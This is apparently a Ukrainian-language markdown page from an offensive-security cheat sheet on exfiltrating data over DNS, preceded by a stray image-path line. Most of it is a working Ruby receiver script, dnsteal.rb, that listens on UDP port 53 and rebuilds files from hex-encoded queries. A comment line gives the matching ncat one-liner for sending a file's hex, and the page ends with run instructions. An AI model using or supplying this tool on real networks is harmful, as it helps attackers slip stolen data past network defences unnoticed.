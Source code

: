 # DNS 


## Ексфільтрація даних DNS 
Віхідне DNS підключення зазвичай дозволено всередині локальних мереж, що є основною перевагою використання DNS для передачі даних до зовниішнього серверу.

**dnsteal.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# for hex in $(xxd -p ethernet-cable.jpg); do echo $hex | ncat -u localhost 53 ; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudo ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

# Відкриваємо UDP Сокет та прикріпляємо його до порту 53 на всіх інтерфейсах
udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''
  
  loop do
    response = udpsoc.recvfrom(1000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[^<][a-f0-9]([a-f0-9]).*[a-f0-9]([a-f0-9])/i).to_s
    
    # Записужмо отримані дані в файл
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old     # Don't write the same data twice(poor workaround)
      puts data unless data == data_old
    end
    
    data_old = data 
  end

rescue Exception => e
  puts e
end
```

Запустіть скрипт:
```
ruby dnsteal.rb image.jpg
```




<br><br><br>
---
- [dnsteal.py](https://github.com/m57/dnsteal)